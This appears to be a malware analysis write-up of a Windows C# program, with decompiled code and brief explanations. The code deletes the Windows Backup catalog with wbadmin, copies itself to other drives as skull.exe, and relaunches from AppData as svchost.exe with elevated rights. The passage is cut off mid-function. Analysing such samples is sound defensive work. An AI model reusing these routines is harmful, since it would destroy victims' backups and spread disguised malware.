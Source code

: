 - configure the Windows Boot Manager settings to ignore any boot failures and disable the automatic startup repair .

```cs
private static void deleteBackupCatalog()
		{
			Program.runCommand("wbadmin delete catalog -quiet");
		}
```

-  Delete the backup catalog. The backup catalog is a database that contains information about the backups created using Windows Backup . 


```cs
private static string spreadName = "skull.exe";
```


```cs
private static void spreadIt(string spreadName)
		{
			foreach (DriveInfo driveInfo in DriveInfo.GetDrives())
			{
				if (driveInfo.ToString() != "C:\\" && !File.Exists(driveInfo.ToString() + spreadName))
				{
					try
					{
						File.Copy(Assembly.GetExecutingAssembly().Location, driveInfo.ToString() + spreadName);
					}
					catch
					{
					}
				}
			}
		}
```

- the malware spreading itself across the computer's drives except for "C" under the name of skull.exe 

```cs
private static string processName = "svchost.exe";
```

* the malware also copy itself to `svchost.exe` , it's not doing any sort of injection but only copying it self to the same svchost.exe name .

```cs
private static void copyResistForAdmin(string processName)
		{
			string friendlyName = AppDomain.CurrentDomain.FriendlyName;
			string location = Assembly.GetExecutingAssembly().Location;
			Environment.GetFolderPath(Environment.SpecialFolder.Startup) + "\\" + friendlyName;
			string text = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\\";
			string text2 = text + processName;
			ProcessStartInfo startInfo = new ProcessStartInfo(text2)
			{
				UseShellExecute = true,
				Verb = "runas",
				WindowStyle = ProcessWindowStyle.Normal,
				WorkingDirectory = text
			};
			Process process = new Process();
			process.StartInfo = startInfo;
			if (friendlyName != processName || location != text2)
			{
```